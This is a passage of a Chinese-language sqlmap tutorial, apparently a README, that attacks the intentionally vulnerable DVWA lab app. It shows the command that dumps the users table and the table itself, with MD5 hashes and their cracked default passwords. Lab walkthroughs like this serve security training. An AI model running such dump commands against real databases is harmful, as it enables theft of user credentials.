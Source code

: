 查询出 dvwa 中所有表的信息

```bash
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```

7. 注出 `dvwa` 数据库中 `users` 表中 所有信息

```
python3 sqlmap.py -r 1.txt -D dvwa -T users --dump
```

<p align="center"><img src="img/1/28.png" width="800px"></p>

```bash
Database: dvwa
Table: users
[5 entries]
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                      | password                                    | last_name | first_name | last_login          | failed_login |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| 1       | admin   | /hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 2021-11-04 02:49:45 | 0            |
| 2       | gordonb | /hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 2021-11-04 02:49:45 | 0            |
| 3       | 1337    | /hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 2021-11-04 02:49:45 | 0            |
| 4       | pablo   | /hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 2021-11-04 02:49:45 | 0            |
| 5       | smithy  | /hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 2021-11-04 02:49:45 | 0            |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
```

至此，所有用户敏感信息已经全部注入出。


**SQLmap常用代码**
